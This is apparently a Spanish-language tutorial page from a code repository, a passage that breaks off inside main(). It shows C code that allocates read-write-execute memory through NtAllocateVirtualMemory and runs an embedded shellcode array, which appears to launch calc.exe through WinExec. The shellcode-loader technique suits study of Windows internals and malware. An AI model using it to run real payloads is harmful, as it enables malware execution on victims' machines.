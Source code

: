 
### [Example 1](./NtAllocateVirtualMemory/example1.c)

Ejecutar shellcode reservando memoria en el proceso actual con permisos de lectura, escritura y ejecucion

```c
/*
 *
 *  Fuente: https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntfreevirtualmemory
 *          https://learn.microsoft.com/es-es/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory
 *  Compila con: gcc example1.c -o example1.exe
 *
 */

[[include]] <stdint.h>
[[include]] <stdio.h>
[[include]] <windows.h>
[[include]] <string.h>

[[pragma]] comment(lib, "ntdll")

typedef NTSTATUS(NTAPI* NtAllocateVirtualMemoryPtr)(
    HANDLE             ProcessHandle,
    PVOID              *BaseAddress,
    ULONG              ZeroBits,
    PSIZE_T             RegionSize,
    ULONG              AllocationType,
    ULONG              Protect);
typedef NTSTATUS(NTAPI* NtFreeVirtualMemoryPtr)(
    HANDLE  ProcessHandle,
    PVOID   *BaseAddress,
    PSIZE_T RegionSize,
    ULONG   FreeType
);

static uint8_t code[] =
    "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
    "\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
    "\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
    "\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
    "\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
    "\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
    "\x48\x83\xec\x20\x41\xff\xd6";
SIZE_T size_of_code = sizeof(code); // tamaño del shellcode

[[define]] NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
[[define]] NtCurrentProcess() ((HANDLE)(LONG_PTR)-1)

int main() {

    HMODULE hNtdll = LoadLibraryA("ntdll.dll"); // cargamos ntdll que carga NtosKrnl.exe(el kernel de windows) para obtener su direccion
    if (hNtdll == NULL) {
        puts("Error al cargar la biblioteca ntdll.dll");
        return EXIT_FAILURE;
```